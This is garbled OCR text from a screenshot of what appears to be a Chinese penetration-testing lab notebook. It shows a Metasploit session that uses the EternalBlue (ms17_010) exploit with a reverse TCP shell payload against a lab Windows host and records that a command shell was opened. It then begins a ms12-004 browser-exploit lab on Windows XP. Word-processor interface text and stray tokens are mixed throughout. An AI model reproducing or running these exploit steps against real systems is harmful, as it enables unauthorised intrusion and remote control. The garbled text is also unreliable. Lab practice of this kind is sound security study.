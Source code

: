 2017-03-14
[*]
[*]
192 [+] 192 [+] 192
use exploit/windows/smb/ms17_010_eternalblue
[*]
192 192
set rhosts 192.168.152.157
[*]
[*] 192
set payload windows/x64/shell/reverse_tcp|
[*]
192
set lhost 192.168.152.148
[*]
192 [+] 192
run
[*]
192
192.168.152.157.445 - ETERNALBLUE overwite compteted successrutty 192
192.168.152.157:445-Sending egg to corrupted connection.
[*]
192
192.168.152.157:445-Triggering free of corrupted buffer.
[*]
[+] 192
Sending stage (336 bytes) to 192.168.152.157 [+]
192
Command shell session 1 opened (192.168.152.148:4444→192.168.15
[*]
192
20-05-19 22:53:40 -0400
*]
192
[+]
192.168.152.157:445- 192
192.168.152.157:445-=
-WIN- 192
[+]
192.168.152.157:445- 192
88 1921 页■：1／2 节：1／1 设置语：18.4厘米 行：11 列：42
字裁：72 算屬检章 文档校对
東中目目2の必 

开发工具
特色功能 Q查找
已岡步·＆协作 分享
: 出·1
AaBbCcDd
AaBb AaBbC AaBbC 正文
标■1 标■2 标题3 新样式
文档助手 文字工具
查找醫换·选择 回收站
利用浏览器漏洞，远程执行代码文件系统
实验靶机：Windows xp
IP:192.168.152.140 漏洞利用
ms12-004
I Kali Linux
amd641
msf5 > search ms12-004 Matching Modules
#
Name
Disclosure D -
0